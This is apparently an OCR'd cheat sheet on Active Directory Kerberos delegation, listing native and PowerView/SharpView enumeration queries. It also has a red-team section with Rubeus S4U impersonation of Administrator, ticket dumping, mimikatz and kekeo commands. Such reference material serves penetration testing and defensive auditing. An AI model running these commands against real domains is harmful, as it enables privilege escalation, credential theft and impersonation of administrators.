 
## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### 🔧 Microsoft‑Signed & Native
- `Get-ADUser -LDAPFilter '(msDS-AllowedToDelegateTo=*)' -Properties msDS-AllowedToDelegateTo -ResultSetSize 100`
- `Get-ADComputer -LDAPFilter '(msDS-AllowedToDelegateTo=*)' -Properties msDS-AllowedToDelegateTo -ResultSetSize 100`
- `Get-ADComputer -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'` (TRUSTED_FOR_DELEGATION)
- `Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=16777216)'` (TRUSTED_TO_AUTH_FOR_DELEGATION)
- `wevtutil`, `klist` for validation

### ⚔️ Offensive (PowerView/SharpView)
```powershell
# Unconstrained
Get-DomainComputer -Unconstrained
Get-DomainUser -Unconstrained

# Constrained (T2A/T4D)
Get-DomainUser -TrustedToAuth -Properties samaccountname,msDS-AllowedToDelegateTo
Get-DomainComputer -TrustedToAuth -Properties name,msDS-AllowedToDelegateTo

# RBCD
Get-DomainObject -LDAPFilter '(msDS-AllowedToActOnBehalfOfOtherIdentity=*)' -Properties *

# Helpers
Get-DomainObjectAcl -ResolveGUIDs | Where-Object {$_.ObjectAceType -like '*AllowedTo*'}
Get-DomainTrust
```
```cmd
SharpView.exe Get-DomainComputer -Unconstrained
SharpView.exe Get-DomainUser -TrustedToAuth
SharpView.exe Get-DomainObject -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)"
```

### 🔴 Red Team (Delegation Ops)
```cmd
Rubeus.exe s4u /user:svc_http /rc4:NTLMHASH /impersonateuser:Administrator /msdsspn:http/web01.corp.local /ptt
Rubeus.exe dump
mimikatz.exe "privilege::debug" "kerberos::list" exit
kekeo.exe tgt::ask /user:svc /domain:corp.local /rc4:NTLMHASH
kekeo.exe tgs::s4u /user:svc /service:cifs/filesrv.corp.local /impersonate:admin
```

### 🛠️ Alternative & Specialized
- AdFind queries for UAC flags; DSInternals for ACE parsing

---
